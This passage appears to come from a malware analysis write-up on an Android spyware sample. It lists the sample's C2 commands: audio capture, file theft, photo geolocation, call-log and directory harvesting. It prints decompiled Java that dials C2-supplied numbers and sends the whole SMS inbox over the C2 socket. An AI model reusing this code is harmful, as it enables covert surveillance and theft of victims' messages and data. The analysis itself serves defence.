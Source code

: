 ### micmokmi8x
Captures audio, stores it in a temporary file named `sound.mp3` and sends it to the C2.

### DTXXTEGE3
Deletes a file from the sdcard according to the filename sent by the C2.

### Yufsssp
It opens a file from `/sdcard` based on the supplied filename by the C2. It then checks whether the exif data contains latitude and longitude information. If present, it sends the coordinates back to the C2.

### getsssspo
It opens a file from `/sdcard` based on the supplied filename by the C2. It then reads it and sends the read data to the C2.

### DXCXIXM
Creates a list of all non-hidden files present at `/sdcard/DCIM` and sends them to the C2.

### f5iledowqqww
It checks whether a file is present in `/sdcard/` based on the filename provided by the C2. It then reads the file and sends the data back to the C2.

### GExCaalsss7
![](/blogs/assets/tiktok/ttsp/ttsp-08.png)

Reads call logs and sends the name, number, duration and call type to the C2.

### SDgex8se
Retrieves a list of files in the directory `/sdcard/<dirname>` based on the provided directory name received from the C2, and sends the name and type (file or directory) to the server.

### PHOCAs7
```java
String mspvon = MainService.this.command.substring(MainService.this.command.indexOf("PHOCAs7") + 7, MainService.this.command.indexOf("kot79"));
Intent callInteln = new Intent("android.intent.action.CALL");
callInteln.setData(Uri.parse("tel:" + mspvon));
MainService.this.startActivity(callInteln);
```
Initiates a phone call to the number supplied by the C2.

### Gxextsxms
```java
if (MainService.this.command.contains("Gxextsxms")) {
    try {
        Uri uriSMSURI = Uri.parse("content://sms/inbox");
        Cursor cur2 = MainService.this.getContentResolver().query(uriSMSURI, null, null, null, null);
        String tyiu = "";
        while (cur2.moveToNext()) {
            String address = cur2.getString(cur2.getColumnIndex("address"));
            String body = cur2.getString(cur2.getColumnIndexOrThrow("body"));
            tyiu = tyiu + address + ")@(" + body + "|";
        }
        cur2.close();
        MainService.socketOutputStream.writeBytes(tyiu + "YORRS4uyuy");
        MainService.socketOutputStream.flush();
        MainService.this.command = "";
    } catch (Exception ew7) {
        ew7.printStackTrace();
    }
```